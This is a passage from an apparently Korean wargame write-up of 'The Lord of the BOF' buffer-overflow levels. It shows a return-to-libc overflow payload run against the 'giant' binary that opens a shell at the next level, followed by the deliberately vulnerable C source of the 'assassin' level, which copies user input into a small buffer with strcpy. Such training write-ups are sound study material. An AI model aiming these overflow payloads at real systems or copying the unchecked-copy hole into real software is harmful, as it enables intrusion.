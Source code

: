 뾰로롱

```shell
[bugbear@localhost bugbear]$ ./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"\xe0\x91\x03\x40"+"\xf9\xbf\x0f\x40"'`"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH 
@ɀσ@
bash$ id    
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)
bash$ my-pass
euid = 514
one step closer
```

잌 플래그 만드신분이 linkin park를 좋아하시는 건가 ㅋㅋ 이전 문제 플래그랑 엮어보니 그런거 같기도 한듯.



## STAGE 15 : giant -> assassin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```
